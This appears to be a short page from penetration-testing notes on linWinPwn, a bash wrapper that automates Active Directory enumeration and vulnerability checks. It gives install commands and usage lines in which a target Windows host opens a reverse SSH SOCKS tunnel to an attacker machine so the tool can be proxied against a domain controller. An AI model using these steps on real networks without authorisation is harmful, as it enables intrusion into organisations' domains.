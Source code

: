 # 2. Initial Attack Vectors

## linWinPwn

{% hint style="info" %}
linWinPwn is a bash script that automates a number of Active Directory Enumeration and Vulnerability checks. The script uses a number of tools and serves as wrapper of them. Tools include: impacket, bloodhound, crackmapexec, enum4linux-ng, ldapdomaindump, lsassy, smbmap, kerbrute, adidnsdump, certipy, silenthound, and others.
{% endhint %}

{% embed url="https://github.com/lefayjey/linWinPwn" %}

```bash
# INSTALL
git clone https://github.com/lefayjey/linWinPwn
cd linWinPwn; chmod +x linWinPwn.sh
chmod +x install.sh
./install.sh
./linWinPwn.sh -h

# USAGE
# on the Windows host, run using PowerShell:
ssh kali@$ip_attacker -R 1080 -NCqf

# On the Linux machine, first update /etc/proxychains4.conf to include socks5 127.0.0.1 1080, then run:
proxychains ./linWinPwn.sh -t $DC_IP
```

